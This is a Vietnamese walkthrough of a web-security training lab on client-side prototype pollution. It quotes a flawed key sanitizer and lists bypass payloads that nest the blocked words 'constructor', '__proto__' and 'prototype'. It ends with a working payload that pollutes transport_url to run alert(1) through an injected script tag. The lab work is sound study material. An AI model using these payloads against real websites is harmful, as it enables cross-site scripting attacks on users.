




# Lab: Client-side prototype pollution via flawed sanitization

Thử chèn `/?__proto__[foo]=bar` vào URL, sau đó kiểm tra trong console:


Thử dùng `constructor` để kiểm tra:


Vẫn chưa thấy dấu hiệu rõ ràng của lỗ hổng. Kiểm tra mã nguồn có đoạn `/resources/js/searchLoggerFiltered.js`:

```javascript
function sanitizeKey(key) {
  let badProperties = ["constructor", "__proto__", "prototype"];
  for (let badProperty of badProperties) {
    key = key.replaceAll(badProperty, "");
  }
  return key;
}
```

-> Đây là lý do khiến các property `constructor`, `__proto__` và `prototype` đều bị chặn.
Tuy nhiên, code chỉ thay thế từng chuỗi một lần, nên có thể né bằng cách chèn lồng chính các chuỗi bị chặn này:

```
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?conconstructorstructor.prototprototypeype.foo=bar
/?conconstructorstructor[prototprototypeype][foo]=bar
```

Payload dùng được là `/?conconstructorstructor[prototprototypeype][foo]=bar`:


Trong `/resources/js/searchLoggerFiltered.js` có đoạn code:

```
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

`src` của `script` được gán từ `config.transport_url`, còn `config` lại được tạo từ `deparam(new URL(location).searchParams.toString())`, nên có thể thử payload:

```
/?conconstructorstructor[prototprototypeype][transport_url]=data:,alert(1)//
```


